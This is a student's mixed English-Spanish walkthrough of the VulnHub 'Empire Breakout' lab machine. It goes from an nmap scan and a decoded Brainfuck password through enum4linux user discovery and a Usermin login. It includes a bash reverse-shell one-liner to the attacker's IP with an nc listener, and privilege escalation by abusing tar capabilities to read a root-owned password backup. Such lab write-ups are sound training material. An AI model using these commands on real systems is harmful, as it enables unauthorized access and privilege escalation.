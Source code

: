Maquina Breakout from VULNHUB :

We need to make a new folder where we'll going to put our archives while we are making our pentesting. In this case the folder will be in :

**/home/cds/Documentos/Workspace/Virtual machines/pentesting/breakout/**

As you can see , the IP (Internet Protocol) adress is  192.168.100.24

![[breakoutIP.png]]

We make a PIN  with the next comand 
![[pingbreakout.png]]

*ping -c 1 192.168.100.24*

First step is scan the open ports and services with nmap with the next comand

*sudo nmap -p- -sV -sC -sS -vvv -n -Pn --min-rate=5000 192.168.100.24 -oN scan*

-p- (scans all ports) , you can also specify some or  a range ex: 1-1023
-sV (detects the version of the services)
-sC(charges the scripts (exploits availables (??)))
-sS(TCP SYN scan , envia paquetes y espera respuesta, no abre conexion TCP completa, si no hay respuesta significa que el puerto esta filtrado)
-Pn(Omites the host discovery , we already know that)
--min-rate=5000()
-vvv (verbose, shows the results while discovers the ports)
-oN scan (creates an archive called scan and put the discovers on a text archive)

![[scaneo.png]]

![[scaneototal2.png]]

THIS IS THE RESULT

So we can see an apache server on the port 80. Wi will explore this server. Now we are going to go in a browser and we are going to put the ip of the target 
192.168.100.24

Es una plantilla predeterminada de apache, apache esta instalada por defecto. Es posible que haya directorios ocultos virtual hosting o algo extraño en el codigo fuente. Se puede hacer footing, version de apache, exploits o virtual hosting
el paso numero 

1 es ver el codigo de fuente , vamos a hacer eso entonces

![[Cibersecurity/Virtual Machines/Vuln Hub Machines/Empire Breakout/IMAGES/apache.png]]

Now we are going to inspect the source code 
![[codigodefuente.png]]
we can se this encripted mesage
![[Cibersecurity/Virtual Machines/Vuln Hub Machines/Empire Breakout/IMAGES/encriptacion.png]]

So we are going to copy the message and decrypt it in the next website

https://www.dcode.fr/brainfuck-language

![[decode.png]]

This is the originale message
++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>++++++++++++++++.++++.>>+++++++++++++++++.----.<++++++++++.-----------.>-----------.++++.<<+.>-.--------.++++++++++++++++++++.<------------.>>---------.<<++++++.++++++.  
  
-->
we obtained this

**.2uqPEfj3D<P'a-3**

now we are going to create a password archive on the pentesting folder

*we use cat > password*  
and then we put the password inside

![[Cibersecurity/Virtual Machines/Vuln Hub Machines/Empire Breakout/IMAGES/password.png]]

Now we are going to watch the port 10000 and 20000 , its very strange and seems like it have some kind of server runing on them (el pinguino de mario pudo verlo, asi que nos vamos a guiar por su maquina ya que la mia no encontro los puertos, en un futuro intentare encontrar la forma de acceder a estos puertos o ver como resuelvo la maquina por mi cuenta)

***EL PROBLEMA ES QUE HAY QUE PONER PERMITIR TODO EN VM ( EN LA PARTE DE ADAPTADOR PUENTE) YA ESTA SOLUCIONADO Y LOS PUERTOS HAN APARECIDO !!!!***
![[ESCANEOCONPUERTOS.png]]
![[ESCANEOCONPUERTOS2.png]]


In this case in the port 10000 we can watch this: 
![[login.png]]
*a login with "web"
In the port 20000 we can see this
![[userlog.png]]
*another login with "user"

In the place with *usermin* he put the password  *.2uqPEfj3D<P'a-3
![[usermin.png]]
BUT WE DONT KNOW THE USER , ONLY THE PASS

he uses the next comand
*sudo enum4linux -a 192.168.100.24 (in my case)*
**DESPUESDE ARREGLAR EL PROBLEMA EL PUERTO AHORA ES EL 192.168.100.26**

![[USUARIOENCONTRADO.png]]

the user is cyber !!!! (sometimes its posible, not sure)

We try the user : cyber
and the password : .2uqPEfj3D<P'a-3
![[usermin.png]]

and we can log in in the usermin.

![[wearein.png]]

now lets use the  comand shell
![[shell.png]]
and lets write a couple of comands
![[comandshell.png]]
now we have the first flag, unfortunately im still like "cyber " and im not the root user
we must do a scale of privileges

Lets do a reverse shell with netcat, first we must listen in one port with the next comand lines

*nc -nlvp 443*
we are listening on the 443 port
![[Cibersecurity/Virtual Machines/Vuln Hub Machines/Empire Breakout/IMAGES/escuchanetcat.png]]
we put the next code  (we must put our ip)
bash -i >& dev/tcp/192.168.100.4/443 0>&1
![[netat.png]]
we are in 
![[ncat1.png]]

Now we need to know our capabilities on the victim machine with the next comand
(what can we do or not , our permissions)

getcap -r / 2>/dev/null

![[capabilitis 1.png]]

Puedo usar "tar" que es la herramienta que usa linux para compactar archivos, y la puedo usar para leer algo que esta ahi.

Now we are going to the /var/ folder and here we can see a archive called backup, generally this archives have some important and sesitive information, so we are going there

![[capabilitis 2.png]]

Here is a folder named .old_pass.bak and it's hidden
![[backups.png]]

Como se podia usar el archivo tar,  comprimimos un archivo para poder hacernos dueños del mismo ya que .old_pass.bak  tenia como propietario a root. Entonces con el siguiente comando se hace un nuevo archivo llamado "clave.tar"

*./tar -cf clave.tar /var/backups/.old_pass.bak*
![[tarbak.png]]

descomprimimos el archivo con  

*tar xvs clave.tar*

y obtenemos el directorio var
![[tarbak 1.png]]

now we acces to /var/backups/ and we can see the .old_pass.bak, but it's property of cyber

![[varcyber.png]]


Now we see on .old_pass.bak, we can see that there is a password, if we try to use it to log us as root we can get acces with it 
![[weareroot.png]]

we clean a little the console with 
***script /dev/null -c bash***

![[script-cbash 1.png]]

and finally we are going to the /root folder and open the rOOt.txt and get the last flag

![[end.png]]


TEMAS IMPORTANTES :

-ACCEDER A TODOS LOS PUERTOS CONFIGURANDO BIEN EL ADAPTADOR PUENTE!!
-CAPABILITIES !!
-Herramienta enum4linux






